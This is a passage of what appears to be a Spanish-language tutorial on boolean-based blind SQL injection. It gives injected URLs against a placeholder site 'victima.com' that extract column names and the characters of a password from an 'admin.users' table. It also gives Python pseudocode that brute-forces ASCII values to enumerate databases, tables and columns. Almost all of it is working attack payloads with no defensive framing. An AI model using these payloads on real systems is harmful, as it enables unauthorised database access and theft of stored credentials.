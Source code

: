```
http://victima.com/product.php?id=1' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='admin' AND table_name='users' LIMIT 2,1),1,1))=X -- -
```

Para extraer el primer carácter de la primera fila de la columna password en la tabla users:

```
http://victima.com/product.php?id=1' AND ASCII(SUBSTRING((SELECT password FROM admin.users LIMIT 0,1),1,1))=X -- -
```
---

## Ejemplo simplificado en pseudocódigo

```python
for N in range(0, total_bases):
    nombre = ""
    pos = 1
    while True:
        encontrado = False
        for X in range(32, 127):
            payload = f"' AND ASCII(SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT {N},1), {pos}, 1)) = {X} -- -"
            if consulta_boolean(payload):  # función que hace la consulta y devuelve True o False
                nombre += chr(X)
                pos += 1
                encontrado = True
                break
        if not encontrado:
            break
    print(f'Base {N}: {nombre}')

```

---

### Para tablas:

```python
payload = f"' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='{nombre_bd}' LIMIT {N},1), {pos}, 1)) = {X} -- -"
```

---

### Para columnas:

```python
payload = f"' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='{nombre_bd}' AND table_name='{nombre_tabla}' LIMIT {N},1), {pos}, 1)) = {X} -- -"
```

---

---